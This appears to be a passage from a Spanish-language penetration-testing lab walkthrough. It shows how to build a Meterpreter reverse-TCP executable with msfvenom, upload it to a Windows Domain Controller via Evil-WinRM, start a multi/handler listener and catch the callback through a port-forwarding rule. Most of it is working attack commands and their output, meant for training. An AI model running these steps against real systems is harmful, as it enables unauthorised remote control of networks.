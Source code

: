 A continuación, cree un payload ejecutable que subiremos al host **Domain Controller**.

```r
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.8.120 -f exe -o dc_shell.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: dc_shell.exe
```

Suba el payload al **DC**.

```r
*Evil-WinRM* PS C:\> upload "/home/tester/dc_shell.exe" 

Info: Uploading /home/tester/dc_shell.exe to C:\\dc_shell.exe
                                                          
Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
```

Deje en segundo plano la sesión **Meterpreter**.

```r
(Meterpreter 1)(/root) > bg
[*] Backgrounding session 1...
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) >>
```

Inicie otro **multi/handler** en la misma sesión de **msfconsole** para capturar la **shell** desde el **DC**.

```r
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lport 8443
lport => 8443
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit
```

Ejecute el payload en el **DC** y, si todo va según lo planeado, lo capturaremos en nuestro handler.

```r
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\dc_shell.exe
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.8.3:5985-<><>-OK
```

Verificando nuestro handler y vemos la conexión entrante. Parece venir de 0.0.0.0 porque nuestra regla de reenvío de puerto establecida anteriormente ha especificado que todo el tráfico destinado a nuestro host en el puerto 1234 debe ser dirigido a (nuestro listener) en el puerto 8443.
